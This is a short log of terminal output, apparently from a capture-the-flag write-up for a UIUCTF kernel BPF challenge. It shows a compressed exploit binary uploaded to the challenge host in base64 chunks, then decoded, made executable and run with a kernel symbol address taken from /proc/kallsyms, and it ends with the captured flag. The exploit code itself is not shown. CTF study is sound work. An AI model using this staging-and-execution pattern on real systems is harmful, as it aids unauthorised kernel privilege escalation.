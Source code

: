 ```bash
[*] Sending chunk 31/35
[*] Sending chunk 32/35
[*] Sending chunk 33/35
[*] Sending chunk 34/35
[*] Sending chunk 35/35
[*] cat /tmp/a.gz.b64 | base64 -d > /tmp/a.gz
[*] gzip -d /tmp/a.gz
[*] chmod +x /tmp/a
[*] mv /tmp/a /tmp/exploit
[*] /tmp/exploit $(cat /proc/kallsyms | grep uiuctf | awk '{print $1}')
Flag: uiuctf{just_a_bpf_of_fun_0468dae3}
[*] Closed connection to bpf-badjmp.chal.uiuc.tf port 1337
```

